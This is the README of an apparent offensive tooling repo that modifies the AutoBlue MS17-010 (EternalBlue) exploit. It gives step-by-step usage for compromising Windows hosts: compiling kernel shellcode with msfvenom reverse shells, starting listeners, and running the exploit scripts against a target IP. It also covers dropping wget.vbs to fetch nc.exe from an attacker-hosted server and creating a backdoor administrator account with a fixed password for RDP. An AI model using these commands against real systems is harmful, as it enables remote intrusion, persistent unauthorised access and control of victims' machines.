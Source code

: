 ########################### Auto Blue Light Special ###########################

It's called Auto Blue Light Special because it's just a modification of AutoBlue and because of a conversation my friend Julien and I were having about the old school K-Mart blue light specials

This is a modification of 3ndG4me's AutoBlue found here: https://github.com/3ndG4me/AutoBlue-MS17-010
I also stole the code to add a user from thel3l: https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a

# What does this script do?
This script exploits MS17-010 then writes wget.vbs to a folder and gives you a limited shell. You can use wget.vbs to transfer a file to the victim (nc.exe or maybe your custom executable) to obtain a not-so-limited shell. It also creates a user and adds that user to the administrators group so you can RDP to the machine.

# Have you tested this?
Only on Windows XP x86. It's only going to work when using the zzz_exploit.py script. You might be able to re-use my code in eternalblue_exploit(7,8,10).py to perform these actions. Maybe, maybe not. I haven't tried. To find my modifications, open zzz_exploit.py and ctrl+f for ReverendShell.

# Why did I modify this script?
I was rooting an XP box and was using AutoBlue because I really like it. It just works. However it gives you a rather limited, non-interactive shell. You can't change directories with this shell, I couldn't echo text to a file and I couldn't copy files from a SMB share (which I don't think is the shell's fault). I needed a better shell but to do that required some way of transferring a file to the victim. I could run cscript but I couldn't echo to a file, hence the modification. With wget.vbs you can download a file you're hosting on, say, a python SimpleHTTPServer. Later on I found thel3l's code to add a user and incorporated it into this script.

# How do I use it?
Follow the directions as written. If everything is successful the output will display which folder the wget.vbs file is in. From there simply issue:
`> cscript c:\foldername\wget.vbs http://your.ip.here:port/ncWin32.exe c:\path\on\victim\ncWin32.exe`

And if you want to RDP to the target after the script is run you can issue:
`# rdesktop -u reverendshell x.x.x.x`
The password will be: haxxx

You may view a demo video here: https://youtu.be/HOvV0utZK_w

########################### Auto Blue Light Special ###########################
####### 
Everything below this line is from the original AutoBlue README #######

# MS17-010 Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion.

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64)

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010

